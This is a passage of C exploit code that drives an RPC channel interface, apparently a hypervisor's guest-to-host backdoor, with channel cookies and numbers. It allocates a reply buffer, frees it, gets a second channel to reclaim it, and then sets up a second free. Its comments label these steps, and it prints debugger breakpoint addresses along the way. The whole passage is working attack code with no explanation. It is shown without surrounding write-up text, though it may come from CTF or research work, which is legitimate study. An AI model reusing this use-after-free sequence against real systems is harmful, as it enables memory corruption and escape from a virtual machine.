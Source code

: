 ```cpp=
    channel_set_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,strlen(s2),&res);
    if(!res){
        printf("fail to set len\n");
        return;
    }
    channel_send_data(chan[0].cookie1,chan[0].cookie2,chan[0].num,strlen(s2),s2,&res);
    channel_recv_reply_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,&len,&res);
    if(!res){
        printf("fail to recv data len\n");
        return;
    }
    printf("recv len:%d\n",len);
    data = malloc(len+0x10);
    memset(data,0,len+0x10);
    for(i=0;i<len+0x10;i++){
        channel_recv_data(chan[0].cookie1,chan[0].cookie2,chan[0].num,i,data,&res);
    }
    printf("recv data:%s\n",data);
    //second step free the reply and let the other channel get it.

    channel_open(&chan[1].cookie1,&chan[1].cookie2,&chan[1].num,&res);
    if(!res){
        printf("fail to open channel!\n");
        return;
    }
    channel_set_len(chan[1].cookie1,chan[1].cookie2,chan[1].num,strlen(s2),&res);
    if(!res){
        printf("fail to set len\n");
        return;
    }

    channel_send_data(chan[1].cookie1,chan[1].cookie2,chan[1].num,strlen(s2)-4,s2,&res);
    if(!res){
        printf("fail to send data\n");
        return;
    }

    //free the output buffer
    printf("Freeing the buffer....,bp:0x5555556DD3EF\n");
    getchar();
    channel_recv_finish2(chan[0].cookie1,chan[0].cookie2,chan[0].num,&res);
    if(!res){
        printf("fail to recv finish1\n");
        return;
    }
    //finished sending the command, should get the freed buffer
    printf("Finishing sending the buffer , should allocate the buffer..,bp:0x5555556DD5BC\n");
    getchar();
    channel_send_data(chan[1].cookie1,chan[1].cookie2,chan[1].num,4,&s2[16],&res);
    if(!res){
        printf("fail to send data\n");
        return;
    }
    
    //third step,free it again
    //set status to be 4
    channel_recv_reply_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,&len,&res);
    if(!res){
        printf("fail to recv data len\n");
        return;
    }
    printf("recv len:%d\n",len);

```